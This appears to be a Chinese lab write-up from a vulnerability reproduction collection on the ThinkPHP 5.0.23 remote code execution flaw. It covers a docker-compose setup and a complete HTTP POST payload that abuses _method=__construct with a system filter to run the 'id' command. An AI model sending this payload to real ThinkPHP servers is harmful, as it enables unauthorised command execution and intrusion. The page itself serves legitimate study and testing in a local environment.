

ThinkPHP5 5.0.23 远程代码执行漏洞¶
漏洞描述¶
ThinkPHP 是一款运用极广的 PHP 开发框架。其 5.0.23 以前的版本中，获取 method 的方法中没有正确处理方法名，导致攻击者可以调用 Request 类任意方法并构造利用链，从而导致远程代码执行漏洞。
参考链接：
环境搭建¶
执行如下命令启动一个默认的 thinkphp 5.0.23 环境：
docker-compose up -d
环境启动后，访问 http://your-ip:8080/index.php 即可看到默认的 ThinkPHP 启动页面。
漏洞复现¶
发送数据包：
POST /index.php?s=captcha HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
成功执行 id 命令：
